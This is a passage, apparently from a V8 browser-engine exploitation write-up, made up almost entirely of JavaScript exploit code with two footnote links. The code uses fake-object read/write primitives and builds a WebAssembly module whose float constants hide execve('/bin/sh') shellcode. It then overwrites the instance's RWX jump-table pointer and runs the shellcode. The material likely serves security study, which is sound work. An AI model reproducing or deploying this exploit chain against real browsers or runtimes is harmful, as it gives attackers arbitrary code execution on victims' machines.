 ```js
    return ftoi(fakeobj[0]);
}

function cwrite32(addr, data) {
    let temp = cread32(addr+4n);
    let el_addr = (BigInt(addr) - 0x8n) | 0x1n;
    spray[idx] = itof(el_addr | fakelen << 32n);
    fakeobj[0] = itof(data | temp << 32n)
}

function cwrite64(addr, data) {
    let el_addr = (BigInt(addr) - 0x8n) | 0x1n;
    spray[idx] = itof(el_addr | fakelen << 32n);
    fakeobj[0] = itof(data)
}

/*
(module
  (func (export "main") (result f64)
    f64.const 1.617548436999262e-270
    f64.const 1.6181477269733566e-270
    f64.const 1.6305238557700824e-270
    f64.const 1.6477681441619941e-270
    f64.const 1.6456891197542608e-270
    f64.const 1.6304734321072042e-270
    f64.const 1.6305242777505848e-270
    drop
    drop
    drop
    drop
    drop
    drop
  )
  (func (export "pwn"))
)
*/
var code = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 8, 2, 96, 0, 1, 124, 96, 0, 0, 3, 3, 2, 0, 1, 7, 14, 2, 4, 109, 97, 105, 110, 0, 0, 3, 112, 119, 110, 0, 1, 10, 76, 2, 71, 0, 68, 104, 110, 47, 115, 104, 88, 235, 7, 68, 104, 47, 98, 105, 0, 91, 235, 7, 68, 72, 193, 224, 24, 144, 144, 235, 7, 68, 72, 1, 216, 72, 49, 219, 235, 7, 68, 80, 72, 137, 231, 49, 210, 235, 7, 68, 49, 246, 106, 59, 88, 144, 235, 7, 68, 15, 5, 144, 144, 144, 144, 235, 7, 26, 26, 26, 26, 26, 26, 11, 2, 0, 11]);
var module = new WebAssembly.Module(code);
var instance = new WebAssembly.Instance(module, {});
var wmain = instance.exports.main;
for (let j = 0x0; j < 20000; j++) {
    wmain();
}

instance_addr = addrof(instance);
jump_table_start = instance_addr + 0x48n;
rwx_addr = cread64(jump_table_start);
sc_addr = rwx_addr + 0x81an - 0x5n;
console.log("[+] Shellcode @", hex(sc_addr+0x5n));

console.log("[+] Overwriting WasmInstanceObject jump_table_start to point to our shellcode");
cwrite32(jump_table_start, sc_addr & BigInt(2**32-1));

// to trigger jmp to address pointed by jump_table_start, we need another new function
var pwn = instance.exports.pwn;
console.log("[+] Executing shellcode");
pwn();
```


[^wb]: <https://v8.dev/blog/concurrent-marking>
[^smi-range]: <https://medium.com/fhinkel/v8-internals-how-small-is-a-small-integer-e0badc18b6da>